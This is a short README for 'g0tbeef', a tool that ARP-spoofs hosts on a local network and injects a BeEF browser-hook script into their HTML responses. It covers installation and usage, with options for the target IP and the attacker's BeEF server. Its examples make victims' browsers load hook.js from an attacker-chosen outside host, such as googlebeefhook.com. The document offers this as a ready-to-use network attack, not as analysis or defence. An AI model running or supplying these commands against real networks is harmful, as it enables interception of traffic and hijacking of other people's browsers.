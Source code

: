 g0tbeef
==========

Arp Spoof and inject beef hook in seconds

Installation:
=======

Run 'make install' in the g0tbeef directory. g0tbeef can now be run from anywhere with 'g0tbeef'.

Usage:
=======

	g0tbeef - Inject Beef hooks into html responses via ARP spoofing

	Usage:  g0tbeef <options>

			-t <ip> 	~  ip extension to target
			-r <ip> 	~  full ip address for beef server
			-p <port>	~  port of beef server
			-e          	~  external ip address for beef server

	Examples:
		g0tbeef -t 2								
		  ~  Attack xx.xx.xx.2 beef hook: $MYI:3000/hook.js
		  
		g0tbeef -r googlebeefhook.com -p 80	
		  ~  beef hook: http://googlebeefhook.com:80/hook.js
